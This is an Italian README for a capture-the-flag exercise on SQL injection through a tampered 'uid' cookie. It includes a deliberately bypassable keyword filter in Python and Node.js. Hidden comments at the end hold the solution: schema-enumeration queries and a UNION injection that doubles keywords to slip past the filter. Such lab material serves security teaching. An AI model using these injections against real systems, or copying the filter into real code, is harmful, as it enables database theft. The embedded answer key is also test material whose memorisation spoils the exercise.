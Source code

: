 # Challenge: Cookie Tampering & SQL Injection

## Descrizione
Hai accesso al codice sorgente di un'applicazione web con diverse vulnerabilità interessanti:
- Una **SQL Injection nella registrazione** 
- Una **Cookie Tampering vulnerability** nella pagina del profilo 🍪
- Un tentativo (fallito) di filtrare input pericolosi con una funzione bypassabile

L'obiettivo? Sfruttare queste vulnerabilità per recuperare la flag nascosta nella tabella!

## Obiettivo
- **Sfrutta la SQL injection nel cookie 'uid' della pagina profilo, stando attento al filtro utilizzato per l'esecuzione della query**
- **Costruisci una UNION injection per leggere la flag dalla tabella segreta**
- **Recupera il valore di della flag**

## Avviare il server:
```bash
docker pull ghcr.io/ax3lt/sqli-ch2
docker run -p 80:80 ghcr.io/ax3lt/sqli-ch2
```

## Suggerimenti
- Il codice nella pagina profilo usa questa query vulnerabile:
```sql
SELECT username FROM users WHERE id = [valore-del-cookie]
```

### Filtro (Python):
```python
def filter_query(query):
    keywords = ["SELECT", "FROM", "WHERE", "OR", "AND", "INSERT", "UPDATE", "DELETE", "DROP", "ALTER", "CREATE", "TABLE", "DATABASE", "UNION", "JOIN"]
    for keyword in keywords:
        query = query.replace(keyword, "")
    return query
```

### Filtro (Node.js):
```javascript
function filterQuery(query) {
    const keywords = ["SELECT", "FROM", "WHERE", "OR", "AND", "INSERT", "UPDATE", "DELETE", "DROP", "ALTER", "CREATE", "TABLE", "DATABASE", "UNION", "JOIN"];
    return keywords.reduce((filteredQuery, keyword) => {
        return filteredQuery.replace(keyword, "");
    }, query);
}
```

[//]: # (Prima bisogna spiegare che si possono ottenere info sui db e le loro tabelle con la query:)

[//]: # (```sql)

[//]: # ( SELECT table_name FROM ) 

[//]: # (information_schema.tables WHERE)

[//]: # ( table_schema=database )

[//]: # (```)

[//]: # (E per ottenere i nomi delle colonne di una tabella si può usare:)

[//]: # (```sql)

[//]: # (SELECT column_name FROM information_schema.columns WHERE table_name='...')

[//]: # (```)

[//]: # (Inj finale pre filter:)

[//]: # (```sql)

[//]: # (2 UNION SELECT mypersonalflag FROM flagrandomwordss -- a)

[//]: # (```)

[//]: # ()
[//]: # (Inj finale post filter:)

[//]: # (```sql)

[//]: # (2 UNIOUNIONN SELECSELECTT mypersonalflag FROFROMM flagrandomwordss -- a)

[//]: # (```)
